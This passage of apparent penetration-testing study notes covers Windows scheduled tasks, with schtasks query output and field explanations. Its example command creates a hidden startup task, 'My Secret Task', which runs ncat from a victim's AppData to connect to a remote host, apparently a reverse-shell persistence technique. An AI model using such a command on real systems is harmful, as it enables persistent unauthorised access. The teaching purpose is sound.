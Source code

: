 ```
Run As User:                          tru7h
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

<SNIP>
```


**Parameters Used:**
- `/Query`: Displays a list of tasks.
- `/V`: Provides detailed information about each task.
- `/FO list`: Formats the output as a list.


**Explanation of Output Fields:**
- **Folder**: The folder in which the task is located.
- **HostName**: Name of the host where the task is scheduled.
- **TaskName**: The name of the scheduled task.
- **Next Run Time**: Time when the task is next scheduled to run.
- **Status**: Current status of the task (e.g., Ready, Running).
- **Logon Mode**: Specifies the logon mode required for the task to run.
- **Last Run Time**: The last time the task was executed.
- **Last Result**: The exit code of the last run.
- **Author**: The user account under which the task was created.
- **Task To Run**: Command or executable that the task will run.
- **Start In**: The directory from which the task starts.
- **Comment**: Additional information or description about the task.
- **Scheduled Task State**: Indicates whether the task is enabled or disabled.
- **Idle Time**: Specifies if the task is triggered by idle time.
- **Power Management**: Defines task behavior in different power modes.
- **Run As User**: The user account under which the task runs.
- **Delete Task If Not Rescheduled**: Indicates if the task should be deleted if it is not rescheduled.
- **Stop Task If Runs X Hours and X Mins**: Specifies the maximum duration for which the task can run.
- **Schedule**: Details about the task's scheduling (not always available in this format).

![[Screenshot_20240915_201708.png]]

#### Creating a New Scheduled Task
Creating a new scheduled task involves specifying several key parameters. The minimal requirements include:
- `/create`: Indicates that you are creating a new task.
- `/sc`: Sets the schedule for the task.
- `/tn`: Defines the name of the task.
- `/tr`: Specifies the action to be taken by the task.
**Example Command:**
```
schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"
```
**Explanation:**
- **`/sc ONSTART`**: The task is scheduled to run when the system starts.
- **`/tn "My Secret Task"`**: The name of the task.